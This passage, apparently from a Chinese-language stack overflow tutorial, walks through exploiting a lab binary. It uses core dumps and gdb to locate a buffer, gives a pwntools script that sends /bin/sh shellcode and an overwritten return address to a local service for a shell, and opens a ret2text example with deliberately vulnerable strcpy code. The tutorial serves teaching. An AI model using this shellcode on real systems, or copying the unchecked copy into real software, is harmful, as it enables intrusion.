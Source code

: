 ```
ulimit -c unlimited
sudo sh -c 'echo "/tmp/core.%t" > /proc/sys/kernel/core_pattern'
```

开启之后，当出现内存错误的时候，系统会生成一个core dump文件在tmp目录下。然后我们再用gdb查看这个core文件就可以获取到buf真正的地址了。

```
$./level1
ABCDAAAAAAAA(...skip...)AAAAAAAAAAA
Segmentation fault (core dumped)

$ gdb level1 /tmp/core.1433844471 
Core was generated by `./level1'.
Program terminated with signal 11, Segmentation fault.
#0 0x41414141 in ?? ()

(gdb) x/10s $esp-144
0xbffff290: "ABCD", 'A' <repeats 153 times>, "\n\374\267`\204\004\b"
0xbffff335: ""
```

因为溢出点是140个字节，再加上4个字节的ret地址，我们可以计算出buffer的地址为$esp-144。通过gdb的命令 “x/10s $esp-144”，我们可以得到buf的地址为0xbffff290。

```
p = process('./level1') #本地测试
p = remote('127.0.0.1',10001) #远程攻击
```

**Exploit**

```
#!/usr/bin/env python
from pwn import *

#p = process('./level1')
p = remote('127.0.0.1',10001)
ret = 0xbffff1e0

shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode += "\x0b\xcd\x80"

payload = shellcode + 'A' * (140 - len(shellcode)) + p32(ret)
p.send(payload)
p.interactive()
```



### ret2text (x86)

**示例代码**

```
 // 编译：gcc -m32 -fno-stack-protector exploit1.c -o exploit1
 // 关闭地址空间随机化不考虑ASLR绕过
 #include <stdlib.h>
 #include <string.h>

 void foobar() {
  puts("I Should Never Be Called");
  exit(0);
 }

 void vulnerable(char *arg) {
  char buff[10];
  strcpy(buff, arg);
 }
```